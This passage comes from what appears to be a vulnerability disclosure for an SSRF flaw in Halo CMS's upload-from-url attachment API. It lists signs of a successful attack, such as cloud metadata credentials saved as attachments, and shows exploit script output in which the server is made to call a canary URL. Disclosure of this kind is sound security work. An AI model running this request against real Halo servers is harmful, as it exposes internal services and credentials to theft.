 #### What to Look For:

**Successful SSRF Indicators:**
- `HTTP/1.1 201 Created` responses with attachment metadata
- DUAL canary hits: HEAD request followed by GET request
- Attachments created containing internal service responses
- Different response times indicating network connectivity
- Internal service content saved as downloadable attachments

**Blocked/Failed Attempts:**
- `HTTP/1.1 400 Bad Request` responses
- No canary hits after 5+ seconds
- `HTTP/1.1 401 Unauthorized` (authentication required)
- `HTTP/1.1 500 Internal Server Error`

**High-Impact Results:**
- Cloud metadata credentials saved as attachments
- Internal service responses accessible via Halo attachment URLs
- Database connection strings or admin panels exfiltrated

---

## Proof of Concept Results

### Successful Exploitation

```bash
$ python3 exploit.py http://localhost:8090 --username halo --password 'Pa$$W0rd!'

Authenticating to Halo User Center...
RSA public key extracted successfully
Password encrypted with RSA
CSRF token obtained
Login successful! Redirected to: /uc

Testing upload SSRF via User Center API...
POST /apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url
Payload: url=http://host.docker.internal:42187/upload-ssrf-test

SSRF VULNERABILITY CONFIRMED
Server made outbound HTTP request to attacker-controlled URL
DefaultAttachmentService.uploadFromUrl() method exploited successfully
User Center API vulnerable (not admin-only)

VULNERABILITY STATUS: CONFIRMED EXPLOITABLE
CWE-918: Server-Side Request Forgery
CVSS: 8.5 High
Root cause: No URL validation in uploadFromUrl() method
Auth required: Content Creator privileges (Post Author role)
```

### Technical Evidence
